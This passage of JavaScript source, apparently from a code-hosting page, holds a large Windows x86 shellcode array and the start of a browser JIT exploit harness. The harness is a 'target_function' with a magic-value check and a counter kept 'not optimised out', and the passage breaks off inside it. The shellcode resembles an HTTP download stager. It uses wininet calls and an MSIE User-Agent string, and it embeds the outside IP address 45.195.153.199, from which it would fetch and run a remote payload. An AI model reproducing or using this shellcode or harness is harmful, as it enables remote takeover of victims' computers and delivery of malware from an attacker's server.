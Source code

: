 ```
var shellcode = [ 0xfc, 0xe8, 0x89, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xd2, 0x64, 0x8b, 0x52, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf0, 0x52, 0x57, 0x8b, 0x52, 0x10, 0x8b, 0x42, 0x3c, 0x01, 0xd0, 0x8b, 0x40, 0x78, 0x85, 0xc0, 0x74, 0x4a, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x8b, 0x58, 0x20, 0x01, 0xd3, 0xe3, 0x3c, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0x31, 0xc0, 0xac, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0x38, 0xe0, 0x75, 0xf4, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75, 0xe2, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x58, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x86, 0x5d, 0x68, 0x6e, 0x65, 0x74, 0x00, 0x68, 0x77, 0x69, 0x6e, 0x69, 0x54, 0x68, 0x4c, 0x77, 0x26, 0x07, 0xff, 0xd5, 0xe8, 0x00, 0x00, 0x00, 0x00, 0x31, 0xff, 0x57, 0x57, 0x57, 0x57, 0x57, 0x68, 0x3a, 0x56, 0x79, 0xa7, 0xff, 0xd5, 0xe9, 0xa4, 0x00, 0x00, 0x00, 0x5b, 0x31, 0xc9, 0x51, 0x51, 0x6a, 0x03, 0x51, 0x51, 0x68, 0xcb, 0x28, 0x00, 0x00, 0x53, 0x50, 0x68, 0x57, 0x89, 0x9f, 0xc6, 0xff, 0xd5, 0x50, 0xe9, 0x8c, 0x00, 0x00, 0x00, 0x5b, 0x31, 0xd2, 0x52, 0x68, 0x00, 0x32, 0xc0, 0x84, 0x52, 0x52, 0x52, 0x53, 0x52, 0x50, 0x68, 0xeb, 0x55, 0x2e, 0x3b, 0xff, 0xd5, 0x89, 0xc6, 0x83, 0xc3, 0x50, 0x68, 0x80, 0x33, 0x00, 0x00, 0x89, 0xe0, 0x6a, 0x04, 0x50, 0x6a, 0x1f, 0x56, 0x68, 0x75, 0x46, 0x9e, 0x86, 0xff, 0xd5, 0x5f, 0x31, 0xff, 0x57, 0x57, 0x6a, 0xff, 0x53, 0x56, 0x68, 0x2d, 0x06, 0x18, 0x7b, 0xff, 0xd5, 0x85, 0xc0, 0x0f, 0x84, 0xca, 0x01, 0x00, 0x00, 0x31, 0xff, 0x85, 0xf6, 0x74, 0x04, 0x89, 0xf9, 0xeb, 0x09, 0x68, 0xaa, 0xc5, 0xe2, 0x5d, 0xff, 0xd5, 0x89, 0xc1, 0x68, 0x45, 0x21, 0x5e, 0x31, 0xff, 0xd5, 0x31, 0xff, 0x57, 0x6a, 0x07, 0x51, 0x56, 0x50, 0x68, 0xb7, 0x57, 0xe0, 0x0b, 0xff, 0xd5, 0xbf, 0x00, 0x2f, 0x00, 0x00, 0x39, 0xc7, 0x75, 0x07, 0x58, 0x50, 0xe9, 0x7b, 0xff, 0xff, 0xff, 0x31, 0xff, 0xe9, 0x91, 0x01, 0x00, 0x00, 0xe9, 0xc9, 0x01, 0x00, 0x00, 0xe8, 0x6f, 0xff, 0xff, 0xff, 0x2f, 0x72, 0x61, 0x31, 0x58, 0x00, 0xe2, 0x26, 0x9e, 0x3e, 0x30, 0xe8, 0xbe, 0xf9, 0x07, 0x26, 0x0c, 0xb7, 0x29, 0xcf, 0x9f, 0x0c, 0x71, 0x33, 0x42, 0x56, 0x55, 0x84, 0x12, 0x2d, 0x72, 0x24, 0x7d, 0x1c, 0xc6, 0xfe, 0x08, 0x22, 0xb5, 0x2b, 0x9a, 0xcb, 0x7b, 0x3e, 0x85, 0x07, 0xb8, 0xfc, 0xa4, 0x88, 0xe9, 0xe9, 0xae, 0x3f, 0x73, 0xaf, 0xe0, 0xca, 0x08, 0x0b, 0x12, 0x3a, 0xe9, 0x74, 0x31, 0x19, 0x8a, 0x58, 0xa4, 0xc5, 0xfb, 0x90, 0x80, 0xd5, 0xe8, 0x04, 0xbb, 0x71, 0x2b, 0x00, 0x55, 0x73, 0x65, 0x72, 0x2d, 0x41, 0x67, 0x65, 0x6e, 0x74, 0x3a, 0x20, 0x4d, 0x6f, 0x7a, 0x69, 0x6c, 0x6c, 0x61, 0x2f, 0x34, 0x2e, 0x30, 0x20, 0x61, 0x74, 0x69, 0x62, 0x6c, 0x65, 0x3b, 0x20, 0x4d, 0x53, 0x49, 0x45, 0x20, 0x37, 0x2e, 0x30, 0x3b, 0x20, 0x57, 0x69, 0x6e, 0x64, 0x6f, 0x77, 0x73, 0x20, 0x4e, 0x54, 0x20, 0x35, 0x2e, 0x31, 0x3b, 0x20, 0x2e, 0x4e, 0x45, 0x54, 0x20, 0x43, 0x4c, 0x52, 0x20, 0x32, 0x2e, 0x30, 0x2e, 0x35, 0x30, 0x37, 0x32, 0x37, 0x29, 0x0d, 0x0a, 0x00, 0x5c, 0x06, 0x71, 0x87, 0x72, 0x72, 0xb2, 0x05, 0x6b, 0x32, 0x1e, 0xcf, 0x09, 0x1a, 0x41, 0x36, 0xba, 0x6d, 0xe1, 0x1e, 0xe2, 0x4f, 0x33, 0xc8, 0x96, 0xc0, 0x8a, 0x6e, 0x3f, 0x34, 0x89, 0xbc, 0x44, 0x4c, 0x53, 0xf8, 0xb4, 0x8b, 0xe5, 0x88, 0x1b, 0x84, 0x78, 0x30, 0xe7, 0x1e, 0x1b, 0xde, 0xb8, 0x2b, 0x50, 0x77, 0x17, 0x3e, 0x15, 0xb4, 0x7a, 0x61, 0x1c, 0xde, 0xb9, 0x78, 0x67, 0x81, 0x91, 0x5f, 0x2a, 0x9b, 0x7a, 0x7a, 0xc4, 0xd4, 0x6d, 0xb4, 0x69, 0xdf, 0xa3, 0xb8, 0xf4, 0x18, 0x26, 0x50, 0x66, 0x88, 0xbd, 0xf7, 0x5c, 0xfc, 0xb6, 0xfd, 0xd2, 0x63, 0xe5, 0x16, 0x79, 0x1a, 0x10, 0x13, 0xfa, 0x15, 0xb8, 0x96, 0x58, 0x5b, 0x7e, 0x1e, 0xd2, 0xd9, 0x4b, 0xe9, 0xb6, 0x4a, 0x58, 0xa6, 0x93, 0x7f, 0xb6, 0x41, 0xc8, 0xd6, 0x2a, 0xb4, 0x0b, 0x15, 0xb9, 0xb7, 0xe6, 0xef, 0xd6, 0xca, 0xc7, 0xf0, 0x30, 0xbd, 0xef, 0xcf, 0x2d, 0x63, 0x61, 0x03, 0xf3, 0x49, 0x3b, 0x88, 0x72, 0x66, 0x23, 0x22, 0xb8, 0x91, 0x8d, 0xb8, 0xb2, 0x4f, 0x21, 0xaf, 0x93, 0x5c, 0x5a, 0x67, 0x12, 0xb5, 0xa7, 0x06, 0xa8, 0xde, 0xf7, 0xe5, 0x41, 0xca, 0x50, 0x47, 0xcc, 0x84, 0xb9, 0x6b, 0x05, 0x09, 0x83, 0x1a, 0xa7, 0xa1, 0x3a, 0x03, 0x75, 0x60, 0xf5, 0xf4, 0xba, 0x08, 0x02, 0x99, 0x8e, 0xfa, 0xc8, 0x72, 0xf5, 0xdc, 0x9b, 0x46, 0xda, 0x5a, 0xbf, 0x1e, 0x13, 0x11, 0xf8, 0xfa, 0x92, 0x28, 0x23, 0x70, 0xd0, 0x79, 0x96, 0x19, 0x8c, 0x38, 0x00, 0x68, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x6a, 0x40, 0x68, 0x00, 0x10, 0x00, 0x00, 0x68, 0x00, 0x00, 0x40, 0x00, 0x57, 0x68, 0x58, 0xa4, 0x53, 0xe5, 0xff, 0xd5, 0x93, 0xb9, 0x00, 0x00, 0x00, 0x00, 0x01, 0xd9, 0x51, 0x53, 0x89, 0xe7, 0x57, 0x68, 0x00, 0x20, 0x00, 0x00, 0x53, 0x56, 0x68, 0x12, 0x96, 0x89, 0xe2, 0xff, 0xd5, 0x85, 0xc0, 0x74, 0xc6, 0x8b, 0x07, 0x01, 0xc3, 0x85, 0xc0, 0x75, 0xe5, 0x58, 0xc3, 0xe8, 0x89, 0xfd, 0xff, 0xff, 0x34, 0x35, 0x2e, 0x31, 0x39, 0x35, 0x2e, 0x31, 0x35, 0x33, 0x2e, 0x31, 0x39, 0x39, 0x00, 0x6f, 0xaa, 0x51, 0xc3 ];


function print(data) {
}




var not_optimised_out = 0;
var target_function = (function (value) {
    if (value == 0xdecaf0) {
        not_optimised_out += 1;
```